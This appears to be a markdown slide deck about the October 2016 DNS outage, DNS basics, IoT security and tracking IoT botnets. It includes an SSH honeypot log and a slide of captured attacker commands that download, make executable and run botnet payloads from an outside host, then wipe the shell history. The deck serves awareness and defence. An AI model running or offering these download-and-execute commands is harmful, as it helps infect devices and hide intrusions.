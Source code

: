 #HSLIDE

## What happened 21.Oct 2016
## What is DNS and why we should care
## What is/are IoT
## How to build a IoT botnet yourself and how to track one
## Why black- and whitehats love cat pictures?

#HSLIDE

#HSLIDE

DNS

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#HSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

.. what about Artificial cardiac pacemaker?

#HSLIDE

```
2016-10-28 05:00:46+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] admin trying auth password
2016-10-28 05:00:46+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] admin authenticated with password
2016-10-28 05:00:49+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] starting service ssh-connection
2016-10-28 05:00:49+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] channel open
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] executing command "cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Opening TTY Log: log/tty/20161028-050050-abab97cc-0e.log
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] CMD: cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; rm -rf ./bash_history; history -c
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: cd /tmp
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: wget http://catsmeowalot.com/lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Starting factory <HTTPProgressDownloader: http://catsmeowalot.com/lmao.sh>
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: curl -O http://catsmeowalot.com/lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: busybox tftp catsmeowalot.com -c get tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: busybox tftp -r tftp2.sh -g catsmeowalot.com
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: rm -rf lmao.sh tftp1.sh tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: cd
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: rm -rf ./bash_history
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: history -c
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] exitCode: 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] sending request exit-status
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] sending close 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] exitCode: 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] received eof, sending ctrl-d to command
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] honeypot terminal protocol connection lost disconnected
```

#HSLIDE

```
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && chmod +x ayyx86 && ./ayyx86
cd /tmp && wget -q http://catsmeowalot.com/ayyarm && chmod +x ayyarm && ./ayyarm
cd /tmp && wget -q http://catsmeowalot.com/ayyi686 && chmod +x ayyi686 && ./ayyi686
cd /tmp && wget -q http://catsmeowalot.com/jackmypowerpc && chmod +x jackmypowerpc && ./jackmypowerpc
cd /tmp && wget -q http://catsmeowalot.com/ayyi586 && chmod +x ayyi586 && ./ayyi586
cd /tmp && wget -q http://catsmeowalot.com/jackmym86k && chmod +x jackmym86k && ./jackmym86k
cd /tmp && wget -q http://catsmeowalot.com/jackmysparc && chmod +x jackmysparc && ./jackmysparc
```

#HSLIDE?image=media/


#HSLIDE


Slides and more on Anycast and DNS:

```
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
```

#HSLIDE

* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)

